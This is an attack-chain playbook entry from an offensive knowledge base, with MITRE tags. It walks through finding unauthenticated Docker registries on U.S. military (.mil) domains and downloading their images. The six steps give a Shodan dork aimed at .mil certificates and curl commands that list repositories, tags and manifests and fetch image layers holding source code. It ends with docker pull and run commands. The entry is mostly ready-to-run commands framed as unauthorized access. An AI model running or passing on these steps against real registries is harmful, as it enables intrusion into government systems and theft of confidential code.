

---
tags:
  - docker
  - registry
  - exposed-service
  - enumeration
  - source-code-leak
type: attack_chain
tools:
  - '[[tools/Shodan]]'
  - '[[tools/Docker]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Collection]]'
verified: false
platforms:
  - Linux
  - Docker
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Discover-Exposed-Docker-Registry-with-Shodan]]'
  - '[[procedures/Enumerate-Repositories-in-Docker-Registry]]'
  - '[[procedures/List-Tags-for-Docker-Repository]]'
  - '[[procedures/Retrieve-Docker-Image-Manifest]]'
  - '[[procedures/Download-Docker-Image-Layers]]'
  - '[[procedures/Pull-Full-Docker-Image-with-CLI]]'
step_count: 6
techniques:
  - '[[Active Scanning]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Data from Information Repositories]]'
updated_at: '2025-12-14T17:31:30.945Z'
description: >-
  Multi-stage attack exploiting an unauthenticated Docker Registry on a .mil
  domain to enumerate and download confidential Docker images containing source
  code.
skill_level: intermediate
impact_level: high
id: b374fbc4-731f-44a9-8a3a-d880bb471693
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Active Scanning]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Data from Information Repositories]]'
---
# Exposed Docker Registry Enumeration and Image Download from .mil Domain

Multi-stage attack chain demonstrating unauthorized access to a Docker Registry hosted on a U.S. military (.mil) domain, allowing enumeration of repositories, tags, manifests, and download of image layers containing source code and confidential tools.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Shodan]]
- [[tools/Docker]]

### Target Environment

- Docker Registry service exposed on port 443 (HTTPS) or 80 (HTTP)
- Linux-based host for Docker CLI
- Internet access to Shodan and the target registry

### Initial Access Requirements

- No credentials required due to lack of authentication
- Public internet access to the target IP/domain
- No prior access needed; targets public-facing services

## Detailed Attack Procedures

### Step 1: Discover Exposed Docker Registry

procedure: [[procedures/Discover-Exposed-Docker-Registry-with-Shodan]]

**Objective**: Identify exposed Docker Registry instances on .mil domains using Shodan search.

**Instructions**: Query Shodan with a specific dork to find unauthenticated registries.

Use [[commands/shodan-search-docker]] to perform the search:

```bash
shodan search 'ssl.cert.subject.cn:*.mil country:"US" http.status:200 product:"Docker Registry HTTP API"' --fields ip_str,port,hostnames
```

**Expected Output**: List of IP addresses and hostnames matching the criteria, including the target .mil domain.

**Success Indicators**:
- Exposed registry IP identified
- Certificate confirms .mil domain

### Step 2: Enumerate Repositories

procedure: [[procedures/Enumerate-Repositories-in-Docker-Registry]]

**Objective**: List all available repositories in the unauthenticated registry.

**Instructions**: Send an HTTP GET request to the catalog endpoint.

Execute [[commands/docker-catalog-enumerate]] against the target host:

```bash
curl -X GET 'https://TARGET_IP/v2/_catalog' -H 'Accept: */*'
```

**Expected Output**: JSON response with an array of repository names, e.g., {"repositories":["repo1","repo2"]}.

**Success Indicators**:
- JSON response without authentication prompt
- List of repositories returned

### Step 3: List Tags for Repository

procedure: [[procedures/List-Tags-for-Docker-Repository]]

**Objective**: Retrieve available tags for a selected repository to identify downloadable images.

**Instructions**: Target a specific repository and query its tags.

Use [[commands/docker-tags-list]] with the repository path:

```bash
curl -X GET 'https://TARGET_IP/v2/NAMESPACE/REPO/tags/list' -H 'Accept: */*'
```

**Expected Output**: JSON with tags, e.g., {"name":"namespace/repo","tags":["3.0.1","latest"]}.

**Success Indicators**:
- Tags listed without errors
- Specific tag like '3.0.1' available

### Step 4: Retrieve Image Manifest

procedure: [[procedures/Retrieve-Docker-Image-Manifest]]

**Objective**: Obtain the manifest for a repository and tag to get blob digests for layers.

**Instructions**: Request the manifest using the selected tag.

Execute [[commands/docker-manifest-retrieve]]:

```bash
curl -X GET 'https://TARGET_IP/v2/NAMESPACE/REPO/manifests/3.0.1' -H 'Accept: */*'
```

**Expected Output**: JSON manifest including fsLayers with blobSum digests like sha256:...

**Success Indicators**:
- Manifest JSON returned
- fsLayers array present with digests

### Step 5: Download Image Layers

procedure: [[procedures/Download-Docker-Image-Layers]]

**Objective**: Download individual image layers (blobs) containing source code archives.

**Instructions**: Use a blob digest from the manifest to fetch the layer.

Use [[commands/docker-blob-download]]:

```bash
curl -X GET 'https://TARGET_IP/v2/NAMESPACE/REPO/blobs/SHA256_DIGEST' -H 'Accept: */*' -o layer.tar.gz
```

**Expected Output**: .tar.gz file downloaded, extractable to reveal source code and files.

**Success Indicators**:
- Binary data downloaded successfully
- Archive contains repository files upon extraction

### Step 6: Pull Full Image with CLI

procedure: [[procedures/Pull-Full-Docker-Image-with-CLI]]

**Objective**: Alternatively pull and inspect the entire Docker image using the CLI.

**Instructions**: Use Docker to pull and run the image for full access.

Execute [[commands/docker-pull-run]]:

```bash
docker pull TARGET_IP/NAMESPACE/REPO:3.0.1
docker run --rm -it TARGET_IP/NAMESPACE/REPO:3.0.1
```

**Expected Output**: Image pulled and container runs, allowing inspection of all contents.

**Success Indicators**:
- Image layers downloaded
- Container starts without authentication

## Attack Chain Summary

### Key Achievements

1. Discovered exposed military Docker Registry via Shodan
2. Enumerated repositories, tags, and manifests without authentication
3. Downloaded source code from image layers, exposing confidential tools

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]] Active Scanning
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Data from Information Repositories]] Data from Information Repositories

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
